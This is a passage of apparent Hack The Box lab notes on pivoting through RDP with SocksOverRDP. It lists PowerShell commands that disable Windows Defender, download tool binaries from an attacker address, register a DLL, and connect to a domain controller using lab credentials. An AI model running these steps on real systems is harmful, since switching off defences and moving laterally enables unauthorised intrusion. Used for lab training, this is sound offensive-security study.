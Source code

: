 ### **Step 3: Disable Windows Defender**
```powershell
# In Windows pivot host - disable Defender (CRITICAL)
# GUI Method:
# 1. Windows Security → Virus & threat protection
# 2. Manage settings → Turn off Real-time protection
# 3. Turn off Cloud-delivered protection
# 4. Turn off Automatic sample submission

# PowerShell method (if available):
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableBehaviorMonitoring $true
```

### **Step 4: Transfer Files to Pivot Host**
```powershell
# Method 1: Copy-paste (easiest)
# - Copy SocksOverRDP-Plugin.dll from host
# - Paste to Windows Desktop
# - Copy SocksOverRDP-Server.exe
# - Copy entire "Proxifier PE" folder

# Method 2: PowerShell download
Invoke-WebRequest -Uri "http://10.10.14.x:8000/SocksOverRDP-Plugin.dll" -OutFile "SocksOverRDP-Plugin.dll"
Invoke-WebRequest -Uri "http://10.10.14.x:8000/SocksOverRDP-Server.exe" -OutFile "SocksOverRDP-Server.exe"
```

### **Step 5: Register SocksOverRDP Plugin**
```powershell
# Run as Administrator (REQUIRED)
# Open PowerShell as Administrator
# Navigate to file location
cd C:\Users\htb-student\Desktop

# Register DLL with system
regsvr32.exe SocksOverRDP-Plugin.dll

# Expected output: Success dialog
# "DllRegisterServer in SocksOverRDP-Plugin.dll succeeded."
```

---

## **5. Establishing RDP Tunnel Chain**

### **Step 6: RDP to Domain Controller**
```powershell
# From Windows pivot host, connect to DC
mstsc.exe

# RDP connection details:
# Computer: 172.16.5.19
# User: victor
# Password: pass@123

# Expected: SocksOverRDP plugin activation message
# "SocksOverRDP plugin enabled, listening on 127.0.0.1:1080"
```
